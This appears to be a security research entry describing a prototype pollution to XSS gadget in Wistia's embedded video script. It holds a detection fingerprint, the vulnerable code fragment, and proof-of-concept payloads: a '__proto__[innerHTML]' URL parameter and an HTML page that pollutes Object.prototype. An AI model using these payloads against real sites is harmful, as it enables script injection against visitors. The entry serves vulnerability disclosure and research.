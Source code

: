 ## Wistia Embedded Video

URL: https://wistia.com/support/embed-and-share/video-on-your-website

### JS Fingerprint
```
return (typeof wistiaEmbeds !== 'undefined')
```

### Vulnerable code fragment
https://fast.wistia.com/assets/external/E-v1.js
```js
if (this.chrome = r.elem.fromObject({
    id: r.seqId('wistia_chrome_'),
    class: 'w-chrome',
    style: r.generate.relativeBlockCss(),
    tabindex: -1
})
...
b = function e(t) {
  ...
  var i = t.tagName || 'div'
  ...
  var l = document.createElement(i);
  for (var s in t) {
    var d = t[s];
    if ('childNodes' != s && 'tagName' !== s && 'ref' !== s) {
    ...
    else
      'className' === s || 'class' === s ? l.className = d : 'innerHTML' === s ? l.innerHTML = d
```

### PoC
```
?__proto__[innerHTML]=<img/src/onerror=alert(1)>
```

```html
<script>
  Object.prototype.innerHTML = '<img/src/onerror=alert(1)>';
</script>

<script src="https://fast.wistia.com/embed/medias/j38ihh83m5.jsonp" async></script>
<script src="https://fast.wistia.com/assets/external/E-v1.js" async></script>
<div class="wistia_embed wistia_async_j38ihh83m5"></div>
```